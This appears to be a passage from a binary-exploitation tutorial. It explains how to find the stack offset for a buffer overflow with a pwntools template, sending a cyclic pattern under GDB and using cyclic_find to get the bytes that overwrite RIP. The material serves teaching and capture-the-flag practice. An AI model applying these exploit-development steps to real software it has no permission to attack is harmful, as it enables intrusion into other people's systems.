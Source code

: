 The template need an offset before continuing with the exploit. If any is provided it will execute the necessary code to find it (by default `OFFSET = ""`):

```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
    gdb.attach(p.pid, "c") #Attach and continue
    payload = cyclic(1000)
    print(r.clean())
    r.sendline(payload)
    #x/wx $rsp -- Search for bytes that crashed the application
    #cyclic_find(0x6161616b) # Find the offset of those bytes
    return
```

**Execute** `python template.py` a GDB console will be opened with the program being crashed. Inside that **GDB console** execute `x/wx $rsp` to get the **bytes** that were going to overwrite the RIP. Finally get the **offset** using a **python** console:

```python
from pwn import *
cyclic_find(0x6161616b)
```

![](<../../../../images/image (1007).png>)

After finding the offset (in this case 40) change the OFFSET variable inside the template using that value.\
`OFFSET = "A" * 40`

